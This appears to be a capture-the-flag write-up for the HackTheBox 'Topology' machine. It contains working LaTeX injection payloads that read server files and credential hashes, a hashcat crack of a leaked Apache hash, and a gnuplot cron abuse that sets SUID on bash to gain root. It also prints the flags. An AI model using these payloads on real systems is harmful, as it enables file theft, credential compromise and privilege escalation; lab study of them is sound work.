


# Topology

Easy
{: .label .label-green }

Latex
{: .label .label-purple }

gnuplot
{: .label .label-purple }

View on [Github](https://github.com/lamachin3/lamachin3.github.io/tree/main/writeups/HackTheBox/Topology)

# Enumeration

## Network Enumeration

```bash
nmap -sCV 10.10.11.217
```



```bash
nmap -p- 10.10.11.217
```


⇒ Nothing out of the box

## Endpoint Enumeration

```bash
gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -u http://10.10.11.217
```


⇒ Nothing interesting here

## Page Source code

Found a sub-domain:

- latex.topology.htb (http://latex.topology.htb/equation.php)


## latex.topology.htb


The Generate input seems like a good entry point. I input `hello world` to test the behavior:


It generates an image containing the provided text.


One noticeable thing is the url that looks promising for automation purposes.


## Latex Exploitation

→ Based on [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection) database we can generate a list of payloads that we will try with the help of burpsuite:

```bash
\input{/etc/passwd}
```


With [script.py](http://script.py) I can get the runned file and understand how it works.

→ Escape the math section defined by `$` and then used the imported package `listings` that i can find in `header.tex` file


→ From this i can build my payload to collect a file such as the source php of the current page `equation.php` 

```bash
 $ \lstinputlisting{../equation.php} $ 
```

⚠️ Don’t forget to add a space before the first $ and after the last one to recreate math section defined by 2 $ and a space in between.


→ From this file content we can clearly see the filtering that is done:


- As the web app is running on an Apache2 web serveur i’ll try to collect the default conf file:

```bash
 $ \lstinputlisting{/etc/apache2/sites-enabled/000-default.conf} $ 
```


→ We notice 2 new sub-domains `dev.topology.htb` and `stats.topology.htb`

## stats.topology.htb


→ A web page with not much but we can access it.

## dev.topology.stats


→ As we can see we have an apache login alert. We should consider looking for a `.htaccess` file which should contain the hashes of the users who can login.

Thanks to `/etc/apache2/sites-enables/000-default.conf` file we know the directory where the dev app is stored: `/var/www/dev` . We can use our initial LFI to gather the `/var/www/dev/.htpasswd` file.

```bash
$ \lstinputlisting{/var/www/dev/.htpasswd} $

vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0
```


→ We can use `hashcat` to crack this hash. To do so:

- store the hash in a txt file in this format:

```bash
vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0
```

- run the following hashcat command:

```bash
hashcat -o cracked.txt --hash-type 1600 --attack-mode 0 hash.txt rockyou.txt
```

- finally print the result that’s stored in the cracked.txt file:

```bash
$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0:calculus20
```

→ We have our first user password combination `vdaisley:calculus20`

We can now access the dev page using these credentials


# Initial Access

Using our first credentials we can get our initial access to the box through ssh

```bash
ssh vdaisly@topology.htb
```

<details markdown="1">
<summary><b>user.txt</b></summary>
```bash
d359b01a0d941b62e5cc075c8b5e5cc5
```
</details>

## Discovery

In order to find a privilege escalation path we first need to perform we discovery on the host. As we know that we are on a linux host we use the linpeas utility to automate that. You can find the script in this webpage: [https://linpeas.sh/](https://linpeas.sh/)

To upload the file first store it on your attack machine and start a basic web sever in the same directory using the following command:

```bash
python -m http.server 8000
```

We can now download it on the target host using wget where ATTACK_IP is your attack machine IP in HTB network:

```bash
wget <ATTACK_IP>:8000/linpeas.sh
```

We can now launch this script by first giving it execution permissions

```bash
chmod +x linpeas.sh
./linpeas.sh
```

## Psypy



As we can see from pspy a process is running the gnuplot on all the `.plt` file in `/opt/gnuplot` and we have a write access in this directory. Therefore if we can make gnuplot run some shell commands we can gain acces to the user that executes this command in the background.

From the gnuplot doc we can find the `system`command that allows to run shell commands on the host. To poc I’ll try to create a file /tmp using the different approaches given to us by the doc and as we can see they all work.

[http://gnuplot.info/docs_5.5/loc18134.html](http://gnuplot.info/docs_5.5/loc18134.html)

```bash
system "touch /tmp/touch"
! touch /tmp/touch2
output = system("touch /tmp/touch3")
show variable GPVAL_SYSTEM
```


# Privilege Escalation

We can now build a script to elevate our privileges for exemple by putting the suid privileges to the bash binary in order to be able to run it afterwards and gain a acces to user running the gnuplot command:

```bash
system "chmod 4755 /usr/bin/bash"
```


Finally as we can see here the gnuplot command was run by the root user therefore we gain access to that user and we can finish the box by printing the root flag


<details markdown="1">
<summary><b>root.txt</b></summary>
```bash
85376f198c0f66caa166fa0cba0fef00
```
</details>